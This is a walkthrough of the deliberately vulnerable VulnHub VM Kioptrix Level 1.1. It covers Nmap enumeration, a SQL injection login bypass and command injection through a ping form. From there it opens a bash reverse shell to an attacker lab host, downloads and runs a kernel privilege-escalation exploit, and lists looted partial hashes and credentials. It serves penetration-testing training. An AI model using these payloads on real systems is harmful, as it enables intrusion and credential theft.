# [[VulnHub] Kioptrix: Level 1.1 (#2)](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

**Date**: 28/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend)  

## Overview
This is a writeup for VulnHub VM [Kioptrix: Level 1.1 (#2)](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Sep 27 18:16:48 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix2/results/192.168.92.182/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix2/results/192.168.92.182/scans/xml/_quick_tcp_nmap.xml 192.168.92.182
Nmap scan report for 192.168.92.182
Host is up, received arp-response (0.0025s latency).
Scanned at 2019-09-27 18:16:48 PDT for 15s
Not shown: 993 closed ports
Reason: 993 resets
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 35 149174282886581624883868648302761292182406879108668063702143177994710569161669502445416601666211201346192352271911333433971833283425439634231257314174441054335295864218587993634534355128377261436615077053235666774641007412196140534221696911370388178873572900977872600139866890316021962605461192127591516843621
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAOWJ2N2BPBPm0HxCi630ZxHtTNMh+uVkeYCkKVNxavZkcJdpfFTOGZp054sj27mVZVtCeNMHhzAUpvRisn/cH4k4plLd1m8HACAVPtcgRrshCzb7wzQikrP+byCVypE0RpkQcDya+ngDMVzrkA+9KQSR/5W6BjldLW60A5oZgyfvAAAAFQC/iRZe4LlaYXwHvYYDpjnoCPY3xQAAAIBKFGl/zr/u1JxCV8a9dIAMIE0rk0jYtwvpDCdBre450ruoLII/hsparzdJs898SMWX1kEzigzUdtobDVT8nWdJAVRHCm8ruy4IQYIdtjYowXD7hxZTy/F0xOsiTRWBYMQPe8lW1oA+xabqlnCO3ppjmBecVlCwEMoeefnwGWAkxwAAAIAKajcioQiMDYW7veV13Yjmag6wyIia9+V9aO8JmgMi3cNr04Vl0FF+n7OIZ5QYvpSKcQgRzwNylEW5juV0Xh96m2g3rqEvDd4kTttCDlOltPgP6q6Z8JI0IGzcIGYBy6UWdIxj9D7F2ccc7fAM2o22+qgFp+FFiLeFDVbRhYz4sg==
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  syn-ack ttl 64 2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            622/udp  status
|_  100024  1            625/tcp  status
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
| SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
| -----BEGIN CERTIFICATE-----
| MIIEDDCCA3WgAwIBAgIBADANBgkqhkiG9w0BAQQFADCBuzELMAkGA1UEBhMCLS0x
| EjAQBgNVBAgTCVNvbWVTdGF0ZTERMA8GA1UEBxMIU29tZUNpdHkxGTAXBgNVBAoT
| EFNvbWVPcmdhbml6YXRpb24xHzAdBgNVBAsTFlNvbWVPcmdhbml6YXRpb25hbFVu
| aXQxHjAcBgNVBAMTFWxvY2FsaG9zdC5sb2NhbGRvbWFpbjEpMCcGCSqGSIb3DQEJ
| ARYacm9vdEBsb2NhbGhvc3QubG9jYWxkb21haW4wHhcNMDkxMDA4MDAxMDQ3WhcN
| MTAxMDA4MDAxMDQ3WjCBuzELMAkGA1UEBhMCLS0xEjAQBgNVBAgTCVNvbWVTdGF0
| ZTERMA8GA1UEBxMIU29tZUNpdHkxGTAXBgNVBAoTEFNvbWVPcmdhbml6YXRpb24x
| HzAdBgNVBAsTFlNvbWVPcmdhbml6YXRpb25hbFVuaXQxHjAcBgNVBAMTFWxvY2Fs
| aG9zdC5sb2NhbGRvbWFpbjEpMCcGCSqGSIb3DQEJARYacm9vdEBsb2NhbGhvc3Qu
| bG9jYWxkb21haW4wgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAN4duNVEr4aL
| TUfsjacXKcCaRs1oTxsdNTIxkp7SV2PDD+mBY5shsXt/FMG7Upf4g605+W6ZEhfB
| WpLXonDFaRIxxn4AGSOLg8q20kUt9p2HZufaSLSwfSwJ+CTMwYtN8AU0jhf3r0y8
| jr+jjEU0HT4O4YXcnDRvbIUeHKedPPsTAgMBAAGjggEcMIIBGDAdBgNVHQ4EFgQU
| QAs+OwqZIYsWClQ2ZBav2uPP/mAwgegGA1UdIwSB4DCB3YAUQAs+OwqZIYsWClQ2
| ZBav2uPP/mChgcGkgb4wgbsxCzAJBgNVBAYTAi0tMRIwEAYDVQQIEwlTb21lU3Rh
| dGUxETAPBgNVBAcTCFNvbWVDaXR5MRkwFwYDVQQKExBTb21lT3JnYW5pemF0aW9u
| MR8wHQYDVQQLExZTb21lT3JnYW5pemF0aW9uYWxVbml0MR4wHAYDVQQDExVsb2Nh
| bGhvc3QubG9jYWxkb21haW4xKTAnBgkqhkiG9w0BCQEWGnJvb3RAbG9jYWxob3N0
| LmxvY2FsZG9tYWluggEAMAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEEBQADgYEA
| Hvq7KPeUTn36Sz/Au95TmC7aSkhIkGVHMRGhWe7KTEflqQffYTqJOS4xsu/FxDRy
| 9IGOapsyILGEx57apuCYJW3tpwMUrpUXu/x9g3LM+VghiH0XxMOfbueVhqWZ+yP8
| LisROr5u+FeGOBBIINAmpWUX2xEdB4p97WYzP03rEQU=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-27T22:07:26+00:00; -3h09m37s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
625/tcp  open  status   syn-ack ttl 64 1 (RPC #100024)
631/tcp  open  ipp      syn-ack ttl 64 CUPS 1.1
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:DD:3C:B5 (VMware)

Host script results:
|_clock-skew: mean: -3h09m37s, deviation: 0s, median: -3h09m37s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 27 18:17:03 2019 -- 1 IP address (1 host up) scanned in 15.14 seconds

```

2\. We find a login form served at `80/tcp`. Within HTML comments we find reference to a possible username `admin` and successfully login using SQL injection:  
``` {.python .numberLines}
admin/' or 1=1 -- -

```

  

  

3\. Once logged in, we find a web administration console with a text input field to accept an IP address. The web console will `POST` this IP to the `pingit.php` script that runs a `ping` query against this IP and shows result:  

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  ssh       |  OpenSSH 3.9p1 (protocol 1.99)
80/tcp    |  http      |  Apache httpd 2.0.52 ((CentOS))
111/tcp   |  rpcbind   |  2 (RPC #100000)
443/tcp   |  ssl/http  |  Apache httpd 2.0.52 ((CentOS))
625/tcp   |  status    |  1 (RPC #100024)
631/tcp   |  ipp       |  CUPS 1.1
3306/tcp  |  mysql     |  MySQL (unauthorized)
```

\newpage
## Phase #2: Exploitation
1\. We try to inject additional command after the IP using a `;` as separator and get results back:  
``` {.python .numberLines}
8.8.8.8 ; uname -a

```

  

  

2\. We can also run commands without providing the IP which makes it a little faster to get results back:  
``` {.python .numberLines}
; uname -a

```

  

  

3\. We try to use Python to get a reverse shell connection but it fails. We fallback on Bash reverse shell and it works:  
``` {.python .numberLines}
nc -nlvp 443
; bash -i >& /dev/tcp/192.168.92.183/443 0>&1

```

  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
apache@kioptrix.level2> id
uid=48(apache) gid=48(apache) groups=48(apache)
apache@kioptrix.level2>  
apache@kioptrix.level2> uname
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
apache@kioptrix.level2>  
apache@kioptrix.level2> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0C:29:DD:3C:B5
      inet addr:192.168.92.182  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fedd:3cb5/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:695106 errors:16 dropped:72 overruns:0 frame:0
      TX packets:647251 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:77457955 (73.8 MiB)  TX bytes:136053412 (129.7 MiB)
      Interrupt:177 Base address:0x2000
apache@kioptrix.level2>  
apache@kioptrix.level2> users
root
```

\newpage
## Phase #3: Privilege Escalation
1\. We try the usuals (`crontab`|`setuid`|`chkrootkit`|etc.) but do not find anything interesting. While exploring the current directory, we find that `/var/www/html/index.php` file has hardcoded MySQL credentials for user `john`:  
``` {.python .numberLines}
head /var/www/html/index.php
  mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());

```

  

2\. We find web application password hashes for users `admin` and `john` from the `users` table within `webapp` database:  
``` {.python .numberLines}
mysql -h localhost -u john -p
  show databases;
  use webapp;
  show tables;
  select * from users;

```

  

  

3\. From the `/etc/redhat-release` file we find that the target system is `CentOS release 4.5 (Final)`:  
``` {.python .numberLines}
cat /etc/redhat-release

```

  

4\. We find an exploit for this CentOS release using `searchsploit`:  
``` {.python .numberLines}
searchsploit linux kernel centos 4.5
  Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)  | exploits/linux_x86/local/9542.c

```

5\. We transfer this exploit file to the target system, compile it using `gcc` and execute it to get elevated access:  
``` {.python .numberLines}
sharehttp 9999
cd /tmp
wget http://192.168.92.183:9999/9542.c
gcc -o 9542 9542.c
./9542

```

  

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:............
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:............
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:............
```
### Credentials
``` {.python .numberLines}
mysql: john/hirosh...
webapp: admin/5afac8...., john/66lajGG...
```

## References
[+] <https://www.vulnhub.com/entry/kioptrix-level-11-2,23/>  
[+] <https://byte8blog.wordpress.com/2017/03/18/kioptrix-level-2-writeup/>  
